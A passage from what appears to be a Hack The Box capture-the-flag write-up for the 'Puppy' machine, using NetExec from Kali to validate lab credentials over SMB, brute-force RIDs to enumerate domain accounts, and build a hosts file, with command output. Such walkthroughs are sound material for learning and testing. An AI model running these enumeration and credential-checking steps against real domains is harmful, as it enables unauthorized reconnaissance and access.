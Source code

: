 Let's validate them:
```shell
┌───(root㉿kali)-[/home/kali/HTB/Puppy]
└─$ netexec smb 10.10.11.70 -u levi.james -p 'KingofAkron2025!'
SMB     10.10.11.70 445 DC      [*] Windows Server 2022 Build 20348 x64 (name:DC) (domain:PUPPY.HTB) (signing:True) (SMBv1:False)
SMB     10.10.11.70 445 DC      [+] PUPPY.HTB\levi.james:KingofAkron2025!
```
Great. Now let's use `NetExec` to brute-force user RIDs and extract valid domain accounts:
```shell
┌───(root㉿kali)-[/home/kali/HTB/Puppy]
└─$ netexec smb 10.10.11.70 -u levi.james -p 'KingofAkron2025!' --rid-brute
```
![ad-module](/assets/img/favicons/puppy/3.png)
As we can see we got `10` valid domain accounts.

Now to continue further, we need to add host information to resolve internal Domain names:
```shell
┌───(root㉿kali)-[/home/kali/HTB/Puppy]
└─$ netexec smb 10.10.11.70 -u levi.james -p 'KingofAkron2025!' --generate-hosts-file "$(pwd)/hosts"
SMB     10.10.11.70 445 DC      [*] Windows Server 2022 Build 20348 x64 (name:DC) (domain:PUPPY.HTB) (signing:True) (SMBv1:False)
SMB     10.10.11.70 445 DC      [+] PUPPY.HTB\levi.james:KingofAkron2025!
```
![ad-module](/assets/img/favicons/puppy/4.png)

